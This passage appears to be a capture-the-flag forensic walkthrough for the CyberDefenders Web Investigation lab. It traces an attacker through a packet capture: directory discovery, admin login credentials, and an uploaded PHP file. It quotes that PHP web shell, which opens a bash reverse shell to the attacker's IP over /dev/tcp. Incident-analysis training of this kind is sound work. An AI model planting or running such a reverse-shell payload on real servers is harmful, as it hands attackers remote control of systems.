 Analysing the marked packet and following the HTTP stream we will find the directory discovered by the attacker: /admin/ .

![q7-3](https://github.com/user-attachments/assets/eab19d04-ea99-411a-a1e1-323087738504)


Q8) Knowing which credentials were used allows us to determine the extent of account compromise. What are the credentials used by the attacker for logging in?

To start, I've used the filter and search with the keyword ip.addr == 111.224.250.131 && http.request.method == POST then examine the activities for successful logins and we focus on the attemps to access /admin/login.php .

![q8-1](https://github.com/user-attachments/assets/056bd18c-da0e-41de-8b82-9352cc450cc4)

This payload shows the attacker attempted to log in using the username admin and the password admin123!

![q8-2](https://github.com/user-attachments/assets/906cd202-9905-43c1-bfe0-0d5781811a8a)

Q9) We need to determine if the attacker gained further access or control of our web server. What's the name of the malicious script uploaded by the attacker?

Continuing with the same filter used in in the previous question (ip.src == 111.224.250.131 and http.request.method == "POST"), I focused on investigating the attacker’s actions after gaining administrative access.

![q9-1](https://github.com/user-attachments/assets/52bd6ad8-1a78-47ee-93a5-7c0d825a1a94)

In the last package (highlighted in the photo) I discovered that the attacker uploaded a file named NVri2vhp.php. 

![q9-2](https://github.com/user-attachments/assets/62203d3e-f412-4877-bea4-c38e68674087)

and also found the following file: <?php exec(“/bin/bash -c ‘bash -i >& /dev/tcp/”111.224.250.131"/443 0>&1’”);?>.
The attacker successfully sent a file containing a shell, enabling them to control the web server and eventually allow the him to perform further exploits.


CONCULSIONS

After completing the CyberDefenders Web Investigation challenge, several key findings and insights were uncovered that demonstrate the importance of meticulous analysis and the use of powerful tools in cybersecurity investigations. Below are the conclusions drawn from the walkthrough:

1. Identification of the Attacker
The attacker’s IP address was identified by analyzing unusual spikes in database queries using Wireshark's conversation statistics. This allowed us to pinpoint malicious activity originating from a specific source.

2. Extent of the Attack
By examining packet data, it was evident that the attacker exploited SQL injection vulnerabilities to access sensitive database information, including table names like "customers," which contained user data.

3. Unauthorized Access
The attacker gained unauthorized access to the system by leveraging stolen credentials. These credentials were extracted from HTTP POST requests using tools like NetworkMiner and Wireshark.
